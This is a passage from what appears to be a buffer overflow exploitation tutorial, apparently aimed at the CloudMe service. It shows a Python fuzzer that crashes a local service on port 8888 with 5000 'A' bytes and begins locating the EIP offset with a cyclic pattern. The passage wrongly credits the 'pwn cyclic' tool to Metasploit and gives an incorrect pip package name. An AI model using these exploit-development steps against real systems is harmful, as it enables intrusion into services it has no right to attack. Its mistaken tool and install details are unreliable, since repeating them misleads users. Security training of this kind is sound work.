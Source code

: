 We will use **Python3** to generate a 5000 A's character buffer to test the lock:

```
#!/usr/bin/python3
import socket,time

buffer=b"A"*5000

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1",8888))

s.send(buffer)
```

![fuzzer](/assets/imgs/cloudme/fuzzer.png)

-----

## Identifying the EIP offset

The next required step is to identify which part of the buffer lands in the EIP register, and then modify it and control the flow of program execution. Since all that was sent was a bunch of A's, at the moment there is no way to know which part has overwritten EIP.

The Metasploit **pwn** tool can be used to create a randomly generated string that will replace the A characters to identify which part lands in EIP:

> Installation: pip install pwn-tools

```
❯ pwn cyclic 5000
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaa [...]
```

modifying the script.
